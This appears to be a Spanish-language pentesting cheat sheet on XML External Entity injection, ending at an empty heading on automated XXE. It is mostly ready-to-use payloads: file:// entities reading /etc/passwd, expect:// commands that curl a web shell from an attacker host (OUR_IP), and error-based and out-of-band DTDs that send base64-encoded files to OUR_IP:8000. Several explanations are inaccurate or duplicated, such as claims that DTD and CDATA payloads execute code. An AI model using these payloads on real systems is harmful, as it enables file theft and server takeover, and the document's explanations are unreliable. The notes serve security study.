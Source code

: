 
# XXE (XML External Entity)
- XXE es una vulnerabilidad de seguridad que se produce cuando una aplicación web expone un punto de entrada que permite la inclusión de archivos XML externas.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría incluir archivos XML maliciosos en una solicitud POST o GET.

### Identificando XXE
- Para identificar XXE, se pueden seguir los siguientes pasos:
    - Identificar puntos de entrada que permiten la inclusión de archivos XML externas.
    - Verificar si la aplicación web permite la inclusión de archivos XML externas.
    - Verificar si la aplicación web permite la inclusión de archivos XML externas en las solicitudes POST o GET.

### Payloads con SYSTEM
- Para explotar XXE, se pueden utilizar diferentes payloads con SYSTEM.
- Un payload con SYSTEM es un payload que contiene una directiva de sistema que se ejecutará en el servidor.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar un payload con SYSTEM para ejecutar código en el servidor.
- Payloads:
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>`
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>`

### Payloads con DTD
- Para explotar XXE, se pueden utilizar diferentes payloads con DTD.
- Un payload con DTD es un payload que contiene una declaración de tipo de documento (DTD) que se utilizará para validar el documento XML.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar un payload con DTD para ejecutar código en el servidor.
- Payloads:
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>`
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>`

### Identificando XXE
- Primero tenemos que encontrar una petición que permita la inclusión de archivos XML externas.
- Puede ser desde un formulario, una solicitud HTTP, un archivo de configuración, un excel, etc.
- [Payloads list](https://github.com/payloadbox/xxe-injection-payload-list)

### RCE con XXE
- Podemos utilizar el siguiente payload para ejecutar comandos en el servidor:
    - `<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://ls" >]><foo>&xxe;</foo>`
    - `<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">`
    - `<!ENTITY % file SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">%file;`

### Filtración con CDATA
- Para filtrar el contenido de una aplicación web, se puede utilizar la directiva CDATA.
- La directiva CDATA se utiliza para filtrar el contenido de una aplicación web.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar la directiva CDATA para filtrar el contenido de la aplicación web.
- Payloads:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
#### Parametros en declaraciones de entidades
- Las declaraciones de entidades pueden contener parámetros que se utilizan para reemplazar valores dinámicos en la declaración de entidad.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar parámetros para reemplazar el contenido de la aplicación web.
- utilizamos `%` para poner parámetros en declaraciones de entidades.
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/SOME-FILE.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:PORT/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
- Desde la maquina atacante tenemos que xxe: `<!ENTITY joined "%begin;%file;%end;">`

### Error based XXE
- Error based XXE es un ataque que se basa en la identificación de errores en la aplicación web.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar un payload con DTD para ejecutar código en el servidor.
- Primero tenemos que ver de generar un error xml en la aplicación web.
- Luego podemos tener un DTD así:
```xml	
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
Y podemos tener el siguiente payload en la petición
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
## Out of Band XXE (blind XXE)
- Es como una inyección ciega de SQLi, pero en este caso se utiliza un payload de tipo DTD para ejecutar código en el servidor.
- Por ejemplo, si una aplicación web permite la inclusión de archivos XML externas, un atacante podría utilizar un payload de tipo DTD para ejecutar código en el servidor.
- Pero no vamos a ver ningún output en la aplicación web.
- Podemos tener el siguiente payload:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
y la petición:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## XXE automatizado